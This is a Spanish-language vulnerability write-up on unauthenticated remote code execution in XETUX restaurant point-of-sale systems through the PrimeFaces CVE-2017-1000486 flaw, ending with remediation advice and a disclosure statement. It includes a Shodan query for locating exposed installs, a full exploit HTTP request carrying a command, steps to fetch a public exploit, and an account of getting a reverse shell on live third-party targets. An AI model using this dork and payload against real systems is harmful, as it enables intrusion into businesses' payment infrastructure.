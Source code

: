 # De la Mesa al Código: Un Viaje a Través de la Vulnerabilidad RCE en POS para Restaurantes

En esta oportunidad nos encontramos por casualidad con una vulnerabilidad presente en varias aplicaciones de POS para restaurantes [XETUX](https://www.xetux.com/pa/), la cual es una solución para monitoreo  y automatización de restaurantes.  En panamá es una herramienta ampliamente utilizada por varios restaurantes.

La vulnerabilidad presente es una RCE (remote code execution), que permite atacantes ejecutar códigos de manera no autenticada y ganar privilegios en el objetivo.

![2](img/2.png)

##### 1. Enumeración 

Una vez descubrimos que la existencia de una librería presente en la aplicación de Xetux, la librería en cuestión es llamada primefaces, encargada de generar pdf, decidimos realizar una búsqueda en shodan para identificar posibles objetivos

```
http.title:"@XETUX" country:PA
```

La búsqueda arrojo 40 resultados y 334 en el mundo

![1](img/1.png)

Procedemos a comprobar la vulnerabilidad en uns objetivos que no se encontraban en Panamá, al analizar los resultados el backend 

![3](img/3.png)

Podemos observar que la aplicación ha sido instalada con todos los privilegios **nt authoriy\system**, vamos a explicar lo que sucede a continuación:

La aplicación esta usando un apache tomcat como server, para el backend se utiliza java, en la aplicación usan una librería o un plugin de terceros llamados Primefaces, la ruta con el problema es el endpoint **javax.faces.resource/dynamiccontent.properties.xhtml**

Al buscar sobre dicha librería encontramos una [vulnerabilidad](https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix), Primefaces carga contenido dinámico de la siguiente manera

```html
/javax.faces.resource/dynamiccontent.properties.jsf?ln=primefaces&pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl&forcereload=1523006610695&pfdrid_c=true
```

El problema se encuentra en el parámetro **pdfid**

`pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl`

El valor del parametro va cifrado y no hay manera de validar si la petición será descifrada correctamente, desafortunadamente sino modifican los valores de la llave por defecto se pueden solicitar la generación de una default key, por lo que afortunadamente para nosotros todas las pruebas realizadas mantenían la lleve por defecto.

De igual manera se podría realizar un ataque Padding Oracle Attack y obtener las llave con la Herramienta Padbuster. A continuación compartimos la solicitud 

```html
POST /xc-one-pos/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: ip:9090
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1643

pfdrt=sc&ln=primefaces&pfdrid=4xE5s8AClZxUxmyaZjpBstMXUalIgOJHOtvxel%2Fv4YXvibdOn52ow4M6lDaKd9Gb8JdQqbACZNWVZpVS%2B3sX1Hoizouty1mYYT4yJsKPnUZ0LUHDvN0GB5YLgX1PkNY%2B1ZQ%2FnOSg5J1LDyzAjBheAxLDODIVcHkmJ6hnJsQ0YQ8bMU5%2B%2BTqeD4BGqCZMDjP%2BZQvveiUhxsUC%2F%2BtPqnOgFSBV8TBjDSPNmVoQ9YcKTGelKuJjS2kCXHjcyz7PcQksSW6UUmKu9RhJ%2Bx3Mnx6j56eroVPWnM2vdYRt5An6cLo1YPXu9uqriyg1wgm%2F7xYP%2FUwP1q8wfVeyM4fOw2xJzP6i1q4VLHLXi0VYHAIgaPrZ8gH8XH4X2Kq6ewyrJ62QxBF5dtE3tvLAL5tpGxqek5VW%2BhZFe9ePu0n5tLxWmqgqni8bKGbGrGu4IhXhCJhBxyelLQzPGLCfqmiQwYX5Ime9EHj1k5eoWQzH8jb3kQfFJ0exVprGCfXKGfHyfKfLEOd86anNsiQeNavNL7cDKV0yMbz52n6WLQrCAyzulE8kBCZPNGIUJh24npbeaHTaCjHRDtI7aIPHAIhuMWn7Ef5TU9DcXjdJvZqrItJoCDrtxMFfDhb0hpNQ2ise%2BbYIYzUDkUtdRV%2BjCGNI9kbPG5QPhAqp%2FJBhQ%2BXsqIhsu4LfkGbt51STsbVQZvoNaNyukOBL5IDTfNY6wS5bPSOKGuFjsQq0Xoadx1t3fc1YA9pm%2FEWgyR5DdKtmmxG93QqNhZf2RlPRJ5Z3jQAtdxw%2BxBgj6mLY2bEJUZn4R75UWnvLO6JM918jHdfPZELAxOCrzk5MNuoNxsWreDM7e2GX2iTUpfzNILoGaBY5wDnRw46ATxhx6Q%2FEba5MU7vNX1VtGFfHd2cDM5cpSGOlmOMl8qzxYk1R%2BA2eBUMEl8tFa55uwr19mW9VvWatD8orEb1RmByeIFyUeq6xLszczsB5Sy85Y1KPNvjmbTKu0LryGUc3U8VQ7AudToBsIo9ofMUJAwELNASNfLV0fZvUWi0GjoonpBq5jqSrRHuERB1%2BDW2kR6XmnuDdZMt9xdd1BGi1AM3As0KwSetNq6Ezm2fnjpW877buqsB%2BczxMtn6Yt6l88NRYaMHrwuY7s4IMNEBEazc0IBUNF30PH%2B3eIqRZdkimo980HBzVW4SXHnCMST65%2FTaIcy6%2FOXQqNjpMh7DDEQIvDjnMYMyBILCOCSDS4T3JQzgc%2BVhgT97imje%2FKWibF70yMQesNzOCEkaZbKoHz498sqKIDRIHiVEhTZlwdP29sUwt1uqNEV%2F35yQ%2BO8DLt0b%2BjqBECHJzI1IhGvSUWJW37TAgUEnJWpjI9R1hT88614GsVDG0UYv0u8YyS0chh0RryV3BXotoSkSkVGShIT4h0s51Qjswp0luewLtNuVyC5FvHvWiHLzbAArNnmM7k%2FGdCn3jLe9PeJp7yqDzzBBMN9kymtJdlm7c5XnlOv%2BP7wIJbP0i4%2BQF%2BPXw5ePKwSwQ9v8rTQ%3D%3D&cmd=whoami
```

##### 2. Reverseshell

Como mencionamos anteriormente la librería que contiene el RCE es Primefaces la cual tiene un exploit público [CVE-2017-1000486](https://github.com/pimps/CVE-2017-1000486)

Probaremos la vulnerabilidad bajando el exploit 

```shell
git clone https://github.com/pimps/CVE-2017-1000486.git
cd CVE-2017-1000486
pip3 install -r requirements.txt
```

Ejecutamos el exploit

![4](img/4.png)

El mismo nos va arrojar una llave y la petición 

![5](img/5.png)

Nos devolverá el resultado del comando 

![6](img/6.png)

Ahora vamos a proceder a obtener la shell reversa, debemos destacar que algunos targets tenían el AV activado y más de una solución de seguridad por lo que se debe realizar el bypass correspondiente. No procederemos a demostrar las técnicas de bypass, pero mostramos en la siguiente imagen el acceso al server:

![7](img/7.png)

##### 3. Consideraciones Finales

- Es importante destacar que la falla no solamente aplica al software Xetux, la misma esta en la librería Primefaces se encuentra en otras aplicaciones como **MaxView Storage Manager** y **DOCBOX**. 

- Los fix para la vulnerabilidad se encuentran hace años puesta el mismo es del 2017, se recomienda actualizar el primefaces.

- El acceso al endpoint es sin autenticación por lo que cualquiera puede realizar peticiones, por lo que se debe validar si las peticiones son válidas.

- Si utiliza alguna de las aplicaciones mencionados compartimos el repositorio de nuclei con el que pueden comprobar si son vulnerables https://gitlab.com/t0adsec/nuclei-templates

- Responsablemente hemos informado a los proveedores de la app en sus respectivos países, no obstante a la fecha no hemos recibido contacto de parte de ellos.

  

##### 4. Referencias

- *XETUX 软件 dynamiccontent.properties.xhtml 远程代码执行漏洞-CSDN博客*. (s. f.). https://blog.csdn.net/holyxp/article/details/134402720
- Gobysec. (s. f.). *GobyVuls/GobyVuls-Document.md at master · gobysec/GobyVuls*. GitHub. https://github.com/gobysec/GobyVuls/blob/master/GobyVuls-Document.md
- Lindner, S. (2018, 26 abril). *PrimeFaces Expression Language Remote Code Execution fix*. illucIT Software GmbH. https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix